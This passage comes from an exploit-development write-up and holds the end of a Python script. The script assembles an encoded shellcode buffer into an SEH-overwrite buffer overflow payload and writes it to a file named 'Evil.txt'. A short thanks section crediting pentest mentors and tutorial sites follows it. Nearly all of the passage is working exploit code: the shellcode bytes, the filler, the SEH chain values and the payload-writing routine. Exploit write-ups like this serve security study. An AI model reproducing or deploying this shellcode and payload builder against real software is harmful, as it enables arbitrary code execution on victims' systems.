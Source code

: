 ```
buf += "\x30\x50\x30\x44\x4b\x52\x32\x4c\x4c\x54\x4b\x30\x52"
buf += "\x4c\x54\x34\x4b\x44\x32\x4f\x38\x4c\x4f\x58\x37\x30"
buf += "\x4a\x4d\x56\x4e\x51\x4b\x4f\x46\x4c\x4f\x4c\x31\x51"
buf += "\x43\x4c\x4b\x52\x4e\x4c\x4f\x30\x57\x51\x48\x4f\x4c"
buf += "\x4d\x4b\x51\x47\x57\x39\x52\x5a\x52\x50\x52\x32\x37"
buf += "\x34\x4b\x51\x42\x4e\x30\x44\x4b\x50\x4a\x4f\x4c\x34"
buf += "\x4b\x50\x4c\x4e\x31\x33\x48\x5a\x43\x51\x38\x4b\x51"
buf += "\x5a\x31\x42\x31\x54\x4b\x30\x59\x4d\x50\x4b\x51\x4a"
buf += "\x33\x34\x4b\x31\x39\x4c\x58\x4a\x43\x4f\x4a\x31\x39"
buf += "\x44\x4b\x50\x34\x34\x4b\x4b\x51\x59\x46\x4e\x51\x4b"
buf += "\x4f\x46\x4c\x49\x31\x58\x4f\x4c\x4d\x4d\x31\x57\x57"
buf += "\x50\x38\x39\x50\x34\x35\x5a\x56\x4d\x33\x53\x4d\x5a"
buf += "\x58\x4f\x4b\x53\x4d\x4f\x34\x42\x55\x49\x54\x52\x38"
buf += "\x54\x4b\x30\x58\x4f\x34\x4d\x31\x38\x53\x31\x56\x34"
buf += "\x4b\x4c\x4c\x50\x4b\x44\x4b\x30\x58\x4d\x4c\x4d\x31"
buf += "\x48\x53\x54\x4b\x4b\x54\x34\x4b\x4d\x31\x58\x50\x53"
buf += "\x59\x50\x44\x4f\x34\x4d\x54\x31\x4b\x51\x4b\x53\x31"
buf += "\x51\x49\x31\x4a\x30\x51\x4b\x4f\x59\x50\x51\x4f\x51"
buf += "\x4f\x50\x5a\x34\x4b\x4d\x42\x4a\x4b\x44\x4d\x51\x4d"
buf += "\x32\x4a\x4b\x51\x34\x4d\x53\x55\x47\x42\x4b\x50\x4d"
buf += "\x30\x4b\x50\x32\x30\x53\x38\x50\x31\x44\x4b\x52\x4f"
buf += "\x44\x47\x4b\x4f\x58\x55\x37\x4b\x49\x50\x4d\x4d\x4e"
buf += "\x4a\x4b\x5a\x31\x58\x35\x56\x45\x45\x57\x4d\x35\x4d"
buf += "\x4b\x4f\x39\x45\x4f\x4c\x4b\x56\x53\x4c\x4c\x4a\x53"
buf += "\x50\x4b\x4b\x49\x50\x43\x45\x4d\x35\x57\x4b\x50\x47"
buf += "\x4e\x33\x54\x32\x52\x4f\x32\x4a\x4d\x30\x51\x43\x4b"
buf += "\x4f\x38\x55\x31\x53\x53\x31\x52\x4c\x51\x53\x4e\x4e"
buf += "\x43\x35\x54\x38\x32\x45\x4d\x30\x41\x41"

# final payload buffer
before_calc = "\x47" * ((nseh_offset) - 918)
junk = before_calc + buf
junk_filler = nseh_offset - len(junk)
junk += "\x47" * junk_filler
print "Junk length (should be %d) : %d" % (nseh_offset, len(junk))
buffer = junk + nSeh + seh + ("\x47\x47" * 4) + eax_align

try:
 f=open("Evil.txt","w")
 print "[+] Creating %s bytes evil payload.." %len(buffer)
 f.write(buffer)
 f.close()
 print "[+] File created!"
except:
 print "File cannot be created"
```

## Thanks
Thanks to Rich (@rd_pentest) for pinging me with the PoC and challenge to get this up and running as well as my constant whining when stuff just isn't doing what it's supposed to. Thanks to h0mbre as always, his posts are great for following along and helping see where I'm messing up. Thanks to Corelan, Fuzzysec, Offsec and others for their high quality content and very detailed write-ups.